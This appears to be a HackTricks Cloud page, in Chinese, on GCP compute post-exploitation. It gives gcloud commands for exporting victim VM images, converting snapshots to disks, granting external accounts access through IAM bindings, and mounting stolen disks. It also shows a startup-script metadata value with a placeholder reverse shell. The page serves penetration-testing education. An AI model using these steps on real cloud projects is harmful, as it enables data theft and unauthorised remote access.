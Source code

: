 # GCP - 计算后渗透

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术：<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**Telegram 群组**](https://t.me/peass) 或 **关注** 我们的 **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) GitHub 仓库提交 PR 分享黑客技巧。

</details>
{% endhint %}

## 计算

有关计算和 VPC（网络）的更多信息，请查看：

{% content-ref url="../gcp-services/gcp-compute-instances-enum/" %}
[gcp-compute-instances-enum](../gcp-services/gcp-compute-instances-enum/)
{% endcontent-ref %}

### 本地导出和检查镜像

这将允许攻击者**访问已存在镜像中的数据**或**创建正在运行的虚拟机的新镜像**，并在没有访问正在运行的虚拟机的情况下访问其数据。

可以将虚拟机镜像导出到一个存储桶，然后下载并使用以下命令在本地挂载它： 

{% code overflow="wrap" %}
```bash
gcloud compute images export --destination-uri gs://<bucket-name>/image.vmdk --image imagetest --export-format vmdk
# The download the export from the bucket and mount it locally
```
{% endcode %}

在执行此操作之前，攻击者可能需要对存储桶拥有权限，并且肯定需要对 **cloudbuild** 拥有权限，因为这是将被请求执行导出的 **服务**。\
此外，为了使其正常工作，codebuild SA 和 compute SA 需要特权权限。\
cloudbuild SA `<project-id>@cloudbuild.gserviceaccount.com` 需要：

* roles/iam.serviceAccountTokenCreator
* roles/compute.admin
* roles/iam.serviceAccountUser

而 SA `<project-id>-compute@developer.gserviceaccount.com` 需要：

* roles/compute.storageAdmin
* roles/storage.objectAdmin

### 本地导出和检查快照与磁盘

无法直接导出快照和磁盘，但可以 **将快照转换为磁盘，将磁盘转换为映像**，并按照 **前一部分**，将该映像导出以便在本地检查。

{% code overflow="wrap" %}
```bash
# Create a Disk from a snapshot
gcloud compute disks create [NEW_DISK_NAME] --source-snapshot=[SNAPSHOT_NAME] --zone=[ZONE]

# Create an image from a disk
gcloud compute images create [IMAGE_NAME] --source-disk=[NEW_DISK_NAME] --source-disk-zone=[ZONE]
```
{% endcode %}

### 检查创建虚拟机的镜像

为了访问**存储在镜像中的数据**或**运行中的虚拟机**，攻击者**创建了一个镜像**，可以授予外部账户对该镜像的访问权限：
```bash
gcloud projects add-iam-policy-binding [SOURCE_PROJECT_ID] \
--member='serviceAccount:[TARGET_PROJECT_SERVICE_ACCOUNT]' \
--role='roles/compute.imageUser'
```
然后从它创建一个新的虚拟机：
```bash
gcloud compute instances create [INSTANCE_NAME] \
--project=[TARGET_PROJECT_ID] \
--zone=[ZONE] \
--image=projects/[SOURCE_PROJECT_ID]/global/images/[IMAGE_NAME]
```
如果您无法通过镜像授予外部帐户访问权限，您可以在受害者的项目中使用该镜像启动一个虚拟机，并**使元数据执行反向 shell**以访问镜像，添加参数：
```bash
--metadata startup-script='#! /bin/bash
echo "hello"; <reverse shell>'
```
### Inspect a Snapshot/Disk attaching it to a VM

为了访问**存储在磁盘或快照中的数据，您可以将快照转换为磁盘，将磁盘转换为映像，并按照之前的步骤进行操作。**

或者您可以**授予外部帐户对磁盘的访问权限**（如果起点是快照，则授予对快照的访问权限或从中创建磁盘）：
```bash
gcloud projects add-iam-policy-binding [PROJECT_ID] \
--member='user:[USER_EMAIL]' \
--role='roles/compute.storageAdmin'
```
**将磁盘** 附加到实例：
```bash
gcloud compute instances attach-disk [INSTANCE_NAME] \
--disk [DISK_NAME] \
--zone [ZONE]
```
挂载磁盘到虚拟机内：

1.  **SSH 进入虚拟机**：

```sh
gcloud compute ssh [INSTANCE_NAME] --zone [ZONE]
```
2. **识别磁盘**：进入虚拟机后，通过列出磁盘设备来识别新磁盘。通常可以找到它作为 `/dev/sdb`、`/dev/sdc` 等。
3. **格式化并挂载磁盘**（如果是新磁盘或原始磁盘）：
*   创建挂载点：

```sh
sudo mkdir -p /mnt/disks/[MOUNT_DIR]
```
*   挂载磁盘：

```sh
sudo mount -o discard,defaults /dev/[DISK_DEVICE] /mnt/disks/[MOUNT_DIR]
```

如果您**无法将快照或磁盘的访问权限授予外部项目**，您可能需要**在与快照/磁盘相同项目的实例内执行这些操作**。

{% hint style="success" %}
学习与实践 AWS 黑客技术：<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks 培训 AWS 红队专家 (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
学习与实践 GCP 黑客技术： <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks 培训 GCP 红队专家 (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>支持 HackTricks</summary>

* 查看 [**订阅计划**](https://github.com/sponsors/carlospolop)!
* **加入** 💬 [**Discord 群组**](https://discord.gg/hRep4RUj7f) 或 [**电报群组**](https://t.me/peass) 或 **在** **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**上关注我们。**
* **通过向** [**HackTricks**](https://github.com/carlospolop/hacktricks) 和 [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github 仓库提交 PR 来分享黑客技巧。

</details>
{% endhint %}
